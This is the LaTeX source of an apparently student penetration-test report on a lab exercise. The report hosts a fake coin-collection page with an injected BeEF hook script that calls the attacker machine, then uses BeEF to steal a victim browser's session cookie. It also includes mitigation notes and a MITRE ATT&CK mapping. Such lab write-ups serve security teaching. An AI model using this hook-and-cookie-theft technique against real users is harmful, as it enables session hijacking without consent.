%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test Exercise 110}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}


% Include one of these headings for each finding.

  \subsection{Finding: \emph{Descriptive Name}}
  	\subsubsection*{Severity Rating}
	Severity Risk: Low \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
    \subsubsection*{Mitigation or Resolution Strategy}
    There are not a lot of possible concrete resolution strategies to resolve this kind of attack. One possible mitigation would be to make sure all users keep software updated as 
    newer versions of browsers and software are more resiliant to these kind of attacks. Antivirus software and more network firewalls might also help to possibly block the user
    from being able to access the page. These are not sure ways to stop this attack, but they might help reduce the chance of this happenining.



\section{Attack Narrative}

    \subsection{Discovery}
    To begin this penetration test, we are told some information from a social engineering campaign.
    This information reveals to us that an employee named Nuri Numismatist likes to search for coins
    and we have reason to believe that attempts to contact a site kalled kali.pr0b3.com which is of
    ip 172.24.0.10. This is the ip of our host kali machine so we can conclude that she is attempting
    to connect to a web service on our machine. The most common port for web connections is port 80
    so the first course of action was to start up the apache2 service that hosts web services on port
    80 as follows
\begin{verbatim}
sudo service apache2 start
\end{verbatim}
    Now that we have port 80 listening, we can monitor traffic and HTTP requests coming into our machine. Next, we can open
    up wireshark and monitor traffic patiently. After some time, we see the following interesting request\\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex110/site_request}\\
    As we can see, someone is requesting page /coins/collection.html. Thus, we know we must make a page
    for this user who is requesting and try to make sure we can hook their browser. Thus, the discovery phase
    is over.

    \subsection{Page Creation}
    The next step on this attack is to create a fake page for the user to get that will allow us to hook
    their browser session. To do this, we can examine the apache2 config page and see that the root path 
    for our web page is in directory \textbf{/var/www/html} so we know that to create a page with 
    the url /coins/collection.html, we must create a directory called coins inside the html directory
    and must create our own collections.html page. We can run the following commands 
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
\end{verbatim}
    The following page should suffice to hook a new client \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex110/sample_page}\\
    We can now restart the apache service and load up the page on google chrome to make sure it works
    as intended. \\~\\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex110/sample_page2}\\


    \subsection{BeEF}
    The last step is to make sure we can see the new clients that connect to our page. To do this, we
    can simply initiate beef using ./beef and start up google chrome. We then navigate to the beef page
    in the browser by going to the following page
    \begin{verbatim}
http://172.24.0.10:3000/ui/panel 
   \end{verbatim}
   Using the credentials in the beef config, we can then begin to get a list of new clients who access
   the page. After some waiting, we see a user from a windows machine who has requested this page. To
   get the session token, we can go to the command part of the menu and search for cookie options. After
   some searching, we discover that using the get cookie command works to get a session token with a hidden
   key. The following censored session token reveals the finding. \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex110/session_cookie_censored}\\
    The cookie seems to show that it is some sort of db session passkey although further testing must
    be done.

    \subsection{MITRE ATT{\&}CK Framework TTPs}

    % \subsubsection*{}
    % \ttp(TA0043, Reconnaissance, T1593, Search Open Websites/Domains, .002, Search Engine)

    \indent\textbf{TA0009:} Collection \\
    \indent\indent\textbf{T1185:} Browser Session Hijacking \\


\end{document} 
